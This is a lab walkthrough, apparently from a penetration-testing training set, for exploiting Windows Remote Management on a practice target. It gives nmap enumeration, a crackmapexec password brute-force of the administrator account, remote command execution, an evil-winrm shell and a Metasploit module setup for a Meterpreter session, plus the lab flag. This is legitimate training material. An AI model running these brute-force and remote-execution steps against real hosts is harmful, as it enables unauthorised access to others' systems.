 # 🔬WinRM

## Lab 1

> 🔬 [WinRM: Exploitation with Metasploit](https://attackdefense.com/challengedetails?cid=2026)
>
> - Target IP: `10.4.30.175`
> - **WinRM** exploitation
> - Dictionaries to use:
>   - `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   - `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

### Enumeration

```bash
ping 10.4.30.175

nmap --top-ports 7000 10.4.30.175
```

```bash
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
```

```bash
nmap -sV -p 5985 10.4.30.175
```

```bash
PORT     STATE SERVICE VERSION
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

![nmap](windows-attacksassets/image-20230315000010576.png)

### CrackMapExec Brute-force

- Use [`crackmapexec`](https://www.kali.org/tools/crackmapexec/) tool to confirm WinRM is running on port `5985`

```bash
crackmapexec
```

```bash
crackmapexec winrm 10.4.30.175 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

![crackmapexec WinRM](windows-attacksassets/image-20230315000524275.png)

- Execute specific Windows commands

```bash
crackmapexec winrm 10.4.30.175 -u administrator -p tinkerbell -x "whoami"
crackmapexec winrm 10.4.30.175 -u administrator -p tinkerbell -x "systeminfo"
```

![crackmapexec WinRM](windows-attacksassets/image-20230315000751847.png)

### evil-WinRM Shell

- Get a command shell session using `evil-winrm` tool

```bash
evil-winrm.rb -u administrator -p 'tinkerbell' -i 10.4.30.175
```

![evil-winrm](windows-attacksassets/image-20230315001019987.png)

### Meterpreter Session

```bash
msfconsole
```

```bash
search winrm_script
use exploit/windows/winrm/winrm_script_exec
set RHOSTS 10.4.30.175
set USERNAME administrator
set PASSWORD tinkerbell
set FORCE_VBS true
exploit
```

![Metasploit winrm_script_exec](windows-attacksassets/image-20230315001646402.png)

<details>
<summary>Reveal Flag: 🚩</summary>


`3c716f95616eec677a7078f92657a230`

![](windows-attacksassets/image-20230315001135557.png)

</details>

------

